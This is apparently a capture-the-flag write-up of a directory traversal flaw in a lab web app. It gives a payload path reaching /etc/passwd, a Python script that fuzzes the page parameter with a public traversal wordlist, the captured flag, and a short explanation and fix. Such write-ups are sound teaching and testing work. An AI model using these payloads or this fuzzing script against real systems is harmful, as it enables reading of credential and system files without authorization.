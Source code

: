 # Directory traversal

### Breach description

We accessed sensitive directories that are supposed to be out of reach for the user. The exploit is based on using “../” to get to parent directories.
This path works : "../../../../../../..//etc/passwd"
```python
import requests

# Target URL
base_url = "http://192.168.64.6/?page="

# Function to test directory traversal
def test_directory_traversal(payload):
    url = base_url + payload
    response = requests.get(url)
    # Check if response contains any indication of successful traversal
    if "flag" in response.text:
        print(f"Possible directory traversal found: {payload}")
        print(url)

# Load common directory traversal payloads from file
with open("traversal_common.txt", "r") as file:
    payloads = file.read().splitlines()

# Iterate through payloads and test directory traversal
for payload in payloads:
    test_directory_traversal(payload)
```

[List](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt) used in traversal_common.txt file.

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

### Explanation of the breach

Access to out of scope directories of the web app because the authorization policy has not been implemented properly or not at all.

The script above traverses common directories that are know for holding sensitive information.

### Breach Fix

Enforce appropriate permissions on directories and files.out of the web root.

Process the URI requests.

[https://github.com/maverickNerd/wordlists/blob/master/fuzz/linux_lfi.txt](https://github.com/maverickNerd/wordlists/blob/master/fuzz/linux_lfi.txt)
